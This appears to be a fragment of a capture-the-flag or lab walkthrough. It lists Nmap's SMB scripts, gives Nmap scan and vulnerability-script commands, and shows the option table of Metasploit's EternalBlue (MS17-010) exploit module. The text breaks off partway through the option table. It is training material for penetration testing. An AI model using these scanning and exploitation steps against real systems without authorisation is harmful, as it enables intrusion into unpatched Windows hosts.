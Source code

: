 ```

└─# cat /usr/share/nmap/scripts/script.db | grep smb | cut -d'"' -f2

smb-brute.nse
smb-double-pulsar-backdoor.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-services.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-protocols.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-cve2009-3103.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
smb-vuln-webexec.nse
smb-webexec-exploit.nse
smb2-capabilities.nse
smb2-security-mode.nse
smb2-time.nse
smb2-vuln-uptime.nse
                                                                                                                    
┌──(root㉿kali)-[~]
```

```
nmap -sS -sC -O -sV -oN nmap <IP>
nmap --script=vuln -oN vuln
```

## Task 2  Gain Access
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                             k/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                              Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
```